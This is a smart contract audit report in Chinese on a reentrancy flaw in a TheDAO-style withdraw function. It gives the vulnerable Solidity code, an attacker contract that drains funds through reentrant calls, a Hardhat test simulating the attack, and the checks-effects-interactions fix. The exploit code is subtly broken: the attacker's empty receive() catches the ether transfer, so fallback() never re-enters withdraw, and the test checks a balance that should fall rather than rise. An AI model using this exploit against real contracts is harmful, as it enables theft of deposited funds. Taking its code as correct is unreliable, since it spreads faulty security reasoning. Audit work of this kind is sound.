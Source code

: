 # 智能合约审计报告

## 漏洞明细

### 合约的 withdraw 函数可以被重入攻击转移全部资产

**严重性**：高
**困难度**：低
**目标**：TheDAO 合约的 withdraw 函数

#### 描述

重入攻击是当攻击者能够在原合约完成所有状态更新之前，多次调用并执行一个函数。在`TheDAO`合约的 `withdraw` 函数中，资金在更新状态变量之前被发送给调用者，这使得调用者可以在单个交易中多次提取资金。

下面是 `TheDAO` 合约的代码片段：

```solidity
contract TheDAO {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed.");
        balances[msg.sender] = 0;
    }
}
```

在 `withdraw` 函数中，首先通过 `call` 方法向调用者发送资金，然后才更新 `balances` 映射。如果调用者是一个恶意合约，其回退函数可以再次调用 `withdraw`，从而在 `balances` 映射被更新之前多次取款。

#### 攻击场景

攻击者创建并部署以下攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./TheDAO.sol";

contract TheDAOAttacker {
    TheDAO public theDAO;
    address payable owner;

    constructor(address theDAOAddress) {
        theDAO = TheDAO(theDAOAddress);
        owner = payable(msg.sender);
    }

    function attack() external payable {
        theDAO.deposit{value: msg.value}();
        theDAO.withdraw();
    }

    // 回退函数，它会在 TheDAO 合约试图将以太币发送回本合约时被调用
    fallback() external payable {
        if (address(theDAO).balance >= msg.value) {
            theDAO.withdraw();
        }
    }

    // 收回攻击获得的以太币
    function collectEther() external {
        owner.transfer(address(this).balance);
    }

    receive() external payable {
    }
}
```

攻击合约的回退函数在接收到资金时再次调用 `withdraw` 函数。通过调用 `attack` 函数，攻击者能够触发重入攻击并多次提款。

为了模拟此攻击，我们可以使用以下测试代码：

```js
const { expect } = require("chai");

describe("TheDAO", function () {
  it("Should perform re-entrancy attack", async function () {
    const [owner, attacker, user1, user2] = await ethers.getSigners();
    
    // 部署目标合约
    const TheDAOFactory = await ethers.getContractFactory("TheDAO");
    const theDAO = await TheDAOFactory.deploy();
    await theDAO.deployed();
    
    // 部署攻击合约
    const TheDAOAttackerFactory = await ethers.getContractFactory("TheDAOAttacker");
    const theDAOAttacker = await TheDAOAttackerFactory.deploy(theDAO.address);
    await theDAOAttacker.deployed();

    // 使用多个地址向目标合约存入以太币
    const depositAmount = ethers.utils.parseEther("1");
    await theDAO.connect(owner).deposit({ value: depositAmount });
    await theDAO.connect(user1).deposit({ value: depositAmount });
    await theDAO.connect(user2).deposit({ value: depositAmount });
    
    // 攻击者通过攻击合约存入1个Ether
    const attackerInitialBalance = await attacker.getBalance();
    await theDAOAttacker.connect(attacker).attack({ value: depositAmount, gasLimit: 4000000 });

    // 检查攻击者的余额，应该大于最初的余额
    const attackerFinalBalance = await attacker.getBalance();
    expect(attackerFinalBalance).to.be.gt(attackerInitialBalance);
  });
});
```

这个测试代码首先部署目标合约和攻击合约。然后使用多个地址向目标合约存入以太币，包括攻击者的地址。接着，攻击者通过调用攻击合约的`attack`函数触发重入攻击。测试代码检查攻击后攻击者的余额，如果攻击成功，攻击者的余额应该大于最初的余额。

#### 推荐修复

为防止重入攻击，建议使用检查-效应-交互的模式。首先更新 `balances` 映射，然后再发送资金。

修复后的代码片段：

```solidity
function withdraw() public {
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0;
    (bool success, ) = msg.sender.call{value: amount}("");
    require(success, "Transfer failed.");
}
```

通过首先设置 `balances[msg.sender]` 为0，我们确保即使调用者再次调用`withdraw`函数，`amount`也会为0，从而防止重入攻击。